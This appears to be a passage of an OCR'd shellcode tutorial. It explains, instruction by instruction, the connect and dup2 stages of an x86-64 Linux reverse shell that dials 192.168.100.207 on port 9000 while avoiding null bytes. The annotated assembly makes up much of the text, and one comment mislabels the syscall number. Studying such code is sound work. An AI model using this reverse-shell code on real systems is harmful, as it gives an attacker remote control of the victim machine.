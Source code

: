 ##### Connect

manpage arguments: ```int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);```

+ RBP stores value "192.168.100.207" in reverse and hex as well.
+ RAX obtains the syscall value.
+ RDI satisfies the sockfd argument, by copying the value in RBX.
+ 0 is pushed through RDX.
+ The value in RBP is pushed.
+ "9000" is pushed within the hex format.
+ "AF_INET" is pushed within the hex format.
+ The value of RSP is copied into RSI.
+ DL is given a length of 50.
+ The syscall is executed.
+ RSI is zeroed out.
+ RSI is given a value of 3, as the following function is dup2

```term
connect:

       mov rbp, 0xcf64a8c0    ; Saves "192.168.100.207" in hex and reverse order, storing it in RBP

       push word 42           ; Pushes word 41 (connect) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.

       mov rdi, rbx           ; Copies the value from RBX to RDI, granting RDI the sockfd value from the socket syscall.

       push rdx               ; Pushes 0

       push rbp               ; Pushes the value of RBP into the Stack.
       push word 0x2823       ; Pushes the word 9000 into the stack.
       push word 0x02         ; Pushes AF_INET into the stack.

       mov rsi, rsp           ; Copies the value of RSP into RSI.

       mov dl, 50             ; This argument requires the length of the struct, anything above 16 should work.
       syscall                ; The syscall is executed.

       xor rsi, rsi           ; Zeroes out RSI

       inc rsi                ; Increments RSI.
       inc rsi                ; Increments RSI.
       inc rsi                ; Increments RSI. This will work as a counter, for the dup2 syscall, by incrementing RSI by three times NULLs are prvented.
```

##### Dup2

manpage arguments: ```int dup2(int oldfd, int newfd);```

+ RAX obtains the syscall value.
+ The value of RBX is copied into RDI, satisfying the oldfd argument.
+ RSI is decremented, satisfying the newfd argument.
+ The syscall is executed.
+ As long as the Zero flag hasn't been set, repeat the loop.
+ Jump to the function "question".
